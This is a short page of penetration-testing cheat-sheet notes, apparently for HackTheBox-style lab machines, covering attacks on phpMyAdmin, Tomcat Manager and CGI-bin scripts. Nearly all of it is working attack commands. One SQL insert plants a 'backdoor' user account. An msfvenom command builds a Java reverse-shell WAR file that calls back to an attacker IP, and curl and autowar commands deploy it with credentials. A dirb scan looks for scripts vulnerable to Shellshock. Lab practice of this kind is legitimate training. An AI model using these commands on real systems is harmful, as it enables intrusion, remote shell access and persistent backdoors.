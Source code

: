 ## Specific Applications/Vulnerabilities:  

	PHPMyAdmin:
		in sql console:  select * from webappdb.users;
		make a user:  insert into webappdb.users(password, username) VALUES (”backdoor“,”backdoor“);
	Tomcat Web Application Manger War Shell Upload:
		msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=4444 -f war -o pwn.war
		***: curl -T "pwn.war" -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/miao&update=true"
		Or automate with:  https://github.com/mgeeky/tomcatWarDeployer
		python autowar.py http://10.10.10.95:8080 -U tomcat -P s3cret -H <attacking machine IP> -P 4321
	CGI-BIN Directory: look for .sh scripts (Shellshock vulnerability):
		dirb http://10.10.10.56/cgi-bin -X .sh
